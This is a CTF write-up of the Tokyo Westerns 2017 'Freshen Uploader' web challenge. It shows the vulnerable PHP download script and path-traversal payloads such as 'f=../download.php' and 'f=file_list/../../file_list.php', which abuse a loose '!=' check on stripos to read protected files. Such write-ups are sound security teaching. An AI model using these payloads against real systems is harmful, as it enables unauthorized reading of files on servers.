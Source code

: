 +++
title="Tokyo Westerns CTF 2017 - Web 1 - Freshen Uploader"
date="2017-09-04"
description="A web challenge, where we have a exploit a LFI and then a vulnerable type check in PHP against return value of a string function named 'stripos'"
author="Nagesh Podilapu"
[taxonomies]
tags=["ctf", "web", "php"]
+++

In this challenge they provided a simple web page hosted at [http://fup.chal.ctf.westerns.tokyo/](http://fup.chal.ctf.westerns.tokyo/) (might not be available at this time).

![Front page of the given challenge](home_page.png)

All this page has is a download link, so I quickly had a look at the download link.

```
http://fup.chal.ctf.westerns.tokyo/download.php?f=6a92b449761226434f5fce6c8e87295a
```

Ah oh! Looks like we can change URL parameter **f**, so I tried to download the script **download.php** by changing parameter value to **f=../download.php**. Yay! It worked! so this is an LFI.

```php
<?php
// TWCTF{then_can_y0u_read_file_list?}
$filename = $_GET['f'];
if(stripos($filename, 'file_list') != false) die();
header("Content-Type: application/octet-stream");
header("Content-Disposition: attachment; filename='$filename'");
readfile("uploads/$filename");
?>
```

We got our first flag: **TWCTF{then_can_y0u_read_file_list?}**.

So we still need to read file_list to get another flag. Well! we went ahead and downloaded **index.php** this time.

```php
<?php
include('file_list.php');
?>
... some redacted HTML code ...
```

So, we need to download source code of file_list.php as well. But! the condition **stripos($filename, 'file_list') != false) die();** is not letting us download this file. Somehow we need to bypass this.

After a few minutes of struggle to understand what's wrong, my eyes glazed over **!=** operator which will not check type. So, I quickly opened up a php interpreter on my machine to do some trails.

```
php > if(stripos("file_list.php","file_list") != false) print "I'm here";
php > if(stripos("hello file_list.php","file_list") != false) print "I'm here";
I'm here
php > echo stripos("file_list.php","file_list");
0
php > echo stripos("hello file_list.php","file_list");
6
```

From the above, it looks like stripos is taking a source string as first parameter and substring to find as a second parameter then it's returning the first index where it found the given substring. So, by putting the string **file_list** at the very beginning of parameter **'f'** will make the result of stripos to zero, which will bypass the condition. Awesome! Now all we need to do is **f=file_list/../../file_list.php**

```php
<?php
$files = [
  [FALSE, 1, 'test.cpp', 192, '6a92b449761226434f5fce6c8e87295a'],
  [FALSE, 2, 'test.c', 325, '27259bca9edf408829bb749969449550'],
  [TRUE, 3, 'flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213', 1337, 'flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213'],
  [FALSE, 4, 'test.py', 94, '951470281beb8a490a941ac73bd10953'],
];
?>
```

Well! we have the secret file name where our flag is **flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213**.

Now we can download the file simply by using the payload **f=flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213**.

And the flag is: **TWCTF{php_is_very_secure}**

A little sarcasm included ¯\\_(ツ)_/¯
